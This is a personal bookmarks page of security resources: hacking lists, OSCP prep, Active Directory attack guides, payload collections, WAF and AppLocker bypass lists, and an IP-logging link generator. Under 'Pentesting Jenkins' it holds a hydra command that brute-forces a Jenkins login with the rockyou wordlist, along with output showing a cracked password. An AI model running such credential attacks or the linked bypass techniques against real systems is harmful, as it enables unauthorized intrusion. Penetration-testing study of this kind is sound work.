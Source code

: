 ```yaml
---
title : "Handy Links"
pre : '<i class="far fa-thumbs-up"></i> '
description : "Handy links to save for feature use."
date : 2020-04-13T13:39:40+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Handy Links

### The Book of Secret Knowledge

A collection of inspiring lists, manuals, cheatsheets, blogs, hacks, one-liners, cli/web tools, and more.

[Github.com - The Book of Secret Knowledge](https://github.com/trimstray/the-book-of-secret-knowledge)

### Awesome hackings

A curated list of awesome Hacking. Inspired by [awesome-machine-learning](https://github.com/josephmisiti/awesome-machine-learning/)

If you want to contribute to this list (please do), send me a pull request or contact me [@carpedm20](https://twitter.com/carpedm20)

For a list of free hacking books available for download, go [here](https://github.com/Hack-with-Github/Free-Security-eBooks)

[Github.com - Awesome hacking](https://github.com/carpedm20/awesome-hacking)

### IMEI / iCloud Lock Checking

[iFreeiCloud.co.uk](https://ifreeicloud.co.uk/free-check) - Checks Model, Capacity, Colour, Find My iPhone Status, Replaced Status, Activation Status, Service Coverage, Technical Support, Warranty Plan, Warranty Expiry & Loaner Status for Apple devices. You can also check non-Apple devices to find the Model & Manufacturer. Tool to check details of iDevices (iPhone, iPad) for iCloud lock / find my iPhone.

[ImeiCheck.com](https://imeicheck.com/) - offers a variety of IMEI Check Services providing all the information about your device, fast and accessible!

### MITRE framework

[Github.com - Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)

### AzureAD Enumeration

[Azure Active Directory - Rootsecdev](https://github.com/rootsecdev/Azure-Red-Team)

### OSCP Repo

This is a list of resources and scripts that I have been gathering (and continuing to gather) in preparation for OSCP.

[Github.com - OSCPRepo](https://github.com/rewardone/OSCPRepo)

[oscp.infosecsanyam.in](https://oscp.infosecsanyam.in/)

### itm4n Documentation page

Blog of offensive security consultant.

[itm4n.github.io](https://itm4n.github.io/)

### Wallpapers

[Wallpaperscraft.com](https://wallpaperscraft.com/)

[Unsplash.com](https://unsplash.com/)

### Ebooks

[Allitebooks.org](https://allitbooks.net/)

### Active directory exploitation and interesting items

[Infosecmatters.com - Top 16 Active Directory vulnerabilities](https://www.infosecmatter.com/top-16-active-directory-vulnerabilities/)

### Active Directory Security

[Active Directory & Enterprise Security, Methods to Secure Active Directory, Attack Methods & Effective Defenses, PowerShell, Tech Notes, & Geek Trivia…](https://adsecurity.org/)

### Pentesting tools

[Github.com - Pentest Tools](https://github.com/S3cur3Th1sSh1t/Pentest-Tools)

### PayloadAllTheThings

[Github.com - PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

### Internet speedtest

[DSLreports.com](https://www.dslreports.com/)

### Information Security References

{{%attachments fa_icon_class="far fa-file-archive" pattern=".*(zip)"/%}}

[rmusser.net](https://rmusser.net/docs/)

### Fake name generator

[nl.fakenamegenerator.com](https://nl.fakenamegenerator.com/gen-random-nl-nl.php)

### Expired domains

Search for domains that are about to expire or are already expired.

[Expireddomains.net](https://www.expireddomains.net/)

### Responsible disclosure

[responsibledisclosure.nl](https://responsibledisclosure.nl/)

### Spamfilter blacklist checking

[Multirbl.valli.org](https://multirbl.valli.org/lookup/)

[Matrix.spfbl.net](https://matrix.spfbl.net/)

### Iconic — Free “do wtf you want with” pixel-perfect icons

[Iconic.app](https://iconic.app/)

### GHDB - Google Hacking Database

[Exploit-db.com - Google Hacking Database](https://www.exploit-db.com/google-hacking-database)

### Attacking Active Directory: 0 to 0.9

[zer1t0.gitlab.io - Attacking Active Directory: 0 to 0.9](https://zer1t0.gitlab.io/posts/attacking_ad/)

### Pentesting Jenkins

[Pwn Jenkins](https://github.com/gquere/pwn_jenkins)

```plain
$ hydra 127.0.0.1 -s 8080 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt            
[...]
[ATTEMPT] target 127.0.0.1 - login "admin" - pass "hottie1" - 556 of 14344399 [child 8] (0/0)
[8080][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-22 15:04:47
```

### Application Security overview and mitigation list

[Applicationsecurity.io - Appsec Findings database list](https://applicationsecurity.io/appsec-findings-database-list/)

### Web Application Firewall (WAF) Evasion Techniques #3

[Secjuice.com - Web Application Firewall (WAF) Evasion Techniques](https://www.secjuice.com/web-application-firewall-waf-evasion/)

### An A-Z Index of Windows CMD commands

[An A-Z Index of Windows CMD commands.](https://ss64.com/nt/)

### Pentesting Web checklist

[Pentesting Web checklist](https://pentestbook.six2dez.com/others/web-checklist)

### Grabify IP LOGGER

Create an URL that will log the IP of visitor(s).

[Grabify IP LOGGER](https://grabify.link/)

### Microsoft Portals Overview

Microsoft has a lot of portals.

After not remembering all the Microsoft Portal URLs so many times, Adam decided to make a list and with a help from a few others, have gotten to this stage. You can read more about the details on the [About page](https://github.com/adamfowlerit/msportals.io/blob/master/about.md).

[msportals.io - Microsoft Administrator Sites](https://msportals.io/)
[Github.com - msportals.io - Microsoft Portals](https://github.com/adamfowlerit/msportals.io)

### List of Github repositories and articles with list of dorks for different search engines

[Github.com - Dorks collections list](https://github.com/cipher387/Dorks-collections-list)

### Microsoft AppLocker ByPass Lists

[Github.com - Ultimate AppLocker ByPass List](https://github.com/api0cradle/UltimateAppLockerByPassList)
